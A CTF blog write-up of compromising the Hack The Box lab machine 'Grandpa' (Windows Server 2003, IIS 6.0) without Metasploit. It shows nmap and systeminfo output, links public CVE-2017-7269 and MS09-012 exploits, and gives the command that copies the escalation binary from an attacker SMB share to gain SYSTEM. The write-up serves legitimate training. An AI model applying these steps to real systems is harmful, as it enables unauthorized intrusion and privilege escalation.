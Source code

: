 ```yaml
---
layout: post
title: Grandpa without metasploit
date: 2020-04-1
author: OutHackThem
comments: true
categories: htb
tags: [Windows,htb]
---
```


## Grandpa without metasploit

So I thought time to shift focus from metasploit and try to do machines without metasploit. I'll admit it took wayy longer and many many failed attempts before I finally got root. Hope ya'll learn some new tricks form this writeup

![main]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Grandpa/main.png)


Let's do a quick nmap all ports

```perl

Nmap scan report for 10.10.10.14
Host is up (0.16s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-ntlm-info: 
|   Target_Name: GRANPA
|   NetBIOS_Domain_Name: GRANPA
|   NetBIOS_Computer_Name: GRANPA
|   DNS_Domain_Name: granpa
|   DNS_Computer_Name: granpa
|_  Product_Version: 5.2.3790
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Server Date: Fri, 03 Apr 2020 18:34:04 GMT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

<br>

### Enumeration

- So I search for IIS 6 vulnerabilites and mainly found 2 things 
- 1) Web Dav exploit
- 2) The BufferOver flow exploit, since I used the webdav one in granny htb machine, thought I'd try buffer over flow so I found an exploit for it on github.
https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell  





### Exploitation


Using the iis6 buffer overflow exploit I got an inital shell on the Windows box

![initial shell]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Grandpa/shell1.png)


Now I won't lie Priv esec was a bitch, took hours. What I am presenting here is the final version of what happened but originally I hit many dead ends and restarted the machine about 10 times or more.

- So started off using Windows Exploit suggester which requires us to save the systeminfo in a text file and feed that as an arguments to find known exploits for that version of the OS.


```perl
sysinfo 
C:\wmpub\test>systeminfo 
systeminfo

Host Name:                 GRANPA
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 11 Minutes, 18 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 796 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,327 MB
Page File: In Use:         143 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A

```

![Windows exploit suggester]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Grandpa/exploit-suggest.png)


- after many a failed exploits I finally found MS09-012 and it worked landing me in a system shell
https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS09-012  

- Downloaded the pr.exe file and transfered it to the victim using impacket smbserver

- the smb share can easily be accessed using copy command from the prompt 

>Prompt> copy \\<IP>\test\pr.exe .


![smbserver]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Grandpa/smbserver.png)



- after copied on the victim it can be used as follows : pr.exe "command"

```perl
C:\wmpub\test>copy \\10.10.14.18\test\pr.exe .    
copy \\10.10.14.18\test\pr.exe .
        1 file(s) copied.

C:\wmpub\test>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 246C-D7FE

 Directory of C:\wmpub\test

04/04/2020  10:48 AM    <DIR>          .
04/04/2020  10:48 AM    <DIR>          ..
04/04/2020  10:42 AM            73,728 pr.exe
               1 File(s)         73,728 bytes
               2 Dir(s)  18,093,436,928 bytes free

C:\wmpub\test>pr.exe "whoami"
pr.exe "whoami"
/xxoo/-->Build&&Change By p 
/xxoo/-->This exploit gives you a Local System shell 
/xxoo/-->Got WMI process Pid: 1864 
begin to try
/xxoo/-->Found token SYSTEM 
/xxoo/-->Command:whoami
nt authority\system

C:\wmpub\test>whoami
whoami
nt authority\network service

C:\wmpub\test>

```




![system]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Grandpa/system.png)

phew! we otta do more of these non msf ctfs.